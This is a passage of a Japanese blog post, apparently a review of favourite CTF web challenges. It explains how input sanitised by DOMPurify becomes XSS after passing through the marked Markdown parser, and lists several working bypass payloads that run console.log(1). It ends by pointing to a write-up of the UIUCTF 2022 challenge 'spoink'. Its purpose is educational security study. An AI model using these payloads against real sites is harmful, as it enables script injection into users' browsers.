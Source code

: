 通常、`DOMPurify`のようなサニタイザは文字列を加工する過程の最後で行うことが鉄則ですが、この問題ではそうはなっていません。つまり、「XSSに対して安全な文字列だが、Markdownパーサを通すことによってXSSが発火するようになる文字列」の入力を特定する必要があります。

この手の問題は、主に3つ（あるいはその組み合わせ）のアプローチがあるかなと思います:

- ①コード解析
    - パーサのロジックを理解する
    - 利用できそうな処理や怪しい処理を見つける
    - Prototype Pollution系はだいたいこれ
- ②手作業で試行錯誤
    - 手作業で試行錯誤しながらパーサが壊れそうな入力をぶつける
    - 攻撃者の"勘"が物を言う
- ③fuzzerで殴る
    - fuzzerを実装してぶん回す
    - 出題例: Marked - Hayyim CTF 2022

markedは一般的に使われているライブラリなので、まずはMarkdownの表記周りで色々悪さできないか試すと良さそうです（つまり②）。

例えば、「`」で囲むとインラインコード扱いになるMakrdownの仕様を利用して以下のHTMLでXSSが可能です:
```html
`<p id="`<img src=x onerror=console.log(1)>">
```

これに`marked.parse`を通すと
```html
<p><code>&lt;p id=&quot;</code><img src=x onerror=console.log(1)>&quot;&gt;</p></p>
```
となり、`id`属性の文字列だったXSSペイロードが外側に放り出されて`<img>`タグとして露出します。

```javascript
marked.parse(DOMPurify.sanitize('<p id="x\n\n<img src=x onerror=console.log(1)>"></p>'))
'<p id="x\n\n<p><img src=x onerror=console.log(1)>&quot;&gt;</p></p>\n'
```

他にも以下のような解法がありました:
```javascript
marked.parse(DOMPurify.sanitize('`<p id="`<img src=x onerror=console.log(1)>">'))
marked.parse(DOMPurify.sanitize('[<p id="<img src=x onerror=console.log(1)>](x"></p>)'))
marked.parse(DOMPurify.sanitize('[x](y "<style>")<!--</style><div id="x--><img src=1 onerror=console.log(1)>"></div>'))

marked.parse(DOMPurify.sanitize('<p id="x\n\n<img src=x onerror=console.log(1)>"></p>'))

marked.parse(DOMPurify.sanitize('<div id="1\n\n![](contenteditable/autofocus/onfocus=console.log(1)//)">'))
```

パーサ周りは色々おもしろい話があり、そのおもしろさの一端を味わえる教育的な問題として気に入っています。解法も色々あり、アイデアソンみたいな楽しさもある良問でした。

## 【the攻撃部門】 spoink - UIUCTF 2022

- 難易度目安: ★★☆

この問題については以前に解法や感想をwriteupで書きました。攻撃のステップ数が多く複雑ですが、各要素はそれほど難しくはないのでよかったらぜひ読んでください:

- https://blog.arkark.dev/2022/08/01/uiuctf/
